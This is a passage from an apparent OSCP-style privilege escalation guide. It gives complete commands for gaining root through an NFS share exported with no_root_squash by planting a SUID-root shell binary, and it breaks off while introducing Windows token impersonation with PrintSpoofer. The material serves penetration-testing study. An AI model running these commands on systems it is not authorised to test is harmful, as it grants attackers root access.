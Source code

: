     group = immediate root*, so it\'s worth the effort.

```{=html}
<!-- -->
```
-   **Exploiting NFS no_root_squash:** -- *Scenario:* An NFS share is
    exported with `no_root_squash`, and you can mount it from your Kali.
    For example, `/export (rw,no_root_squash)` is accessible.\
    **Commands (on Kali attacker):**

```{=html}
<!-- -->
```
-   mkdir /tmp/nfs_mount
        mount -t nfs <targetIP>:/export /tmp/nfs_mount
        echo 'int main(){setuid(0); setgid(0); system("/bin/bash");}' > /tmp/nfs_mount/root.c
        gcc /tmp/nfs_mount/root.c -o /tmp/nfs_mount/rootme
        chmod +s /tmp/nfs_mount/rootme

    (Now unmount if needed, though not necessary.)\
    **Commands (back on target):**

        /export/rootme

    **Explanation:** By mounting the NFS share with no_root_squash, any
    files created as root on the client (Kali) will also be owned by
    root on the server. We create a simple C program that spawns a root
    shell (via SUID
    technique)[\[47\]](file://file_00000000a3d0620a84e217ba9230a1d3#:~:text=echo%20%27int%20main%28%29%7Bsetgid%280%29%3B%20setuid%280%29%3B%20system%28,a%3E%20%2Fpath%2Fto%2Fmounted%2Fx),
    compile it on the share (as root user on Kali, so the file has UID 0
    on server), and set the SUID bit. When we execute `/export/rootme`
    on the target, it is running as an SUID-root binary, giving a root
    shell. This works because no_root_squash *does not downgrade the
    root user* on the mounted share, which is normally a security
    measure (root would be mapped to nobody by default root_squash).
    This is a classic priv esc if NFS is open.

These examples cover many of the real-world vectors seen in OSCP labs:
leveraging SUID binaries, misconfigured sudo, cron jobs, capabilities,
containers, etc. Always tailor the command to the situation (paths, file
names, IP addresses for reverse shells, etc. will differ).

### Windows Privilege Escalation Exploits

Now let\'s cover exploitation on Windows for the common scenarios:

-   **Token Impersonation: JuicyPotato / PrintSpoofer** -- *Scenario:*
    You have `SeImpersonatePrivilege`. The target is Windows Server 2016
    or earlier (for JuicyPotato) or a newer Windows where PrintSpoofer
    works (requires SMB or Spooler service).\
    **Command (PrintSpoofer example):**\
    On your Kali, ensure you have `PrintSpoofer.exe` (a tool to exploit
    SeImpersonate via print spooler). Transfer it to target. Then on
    target:
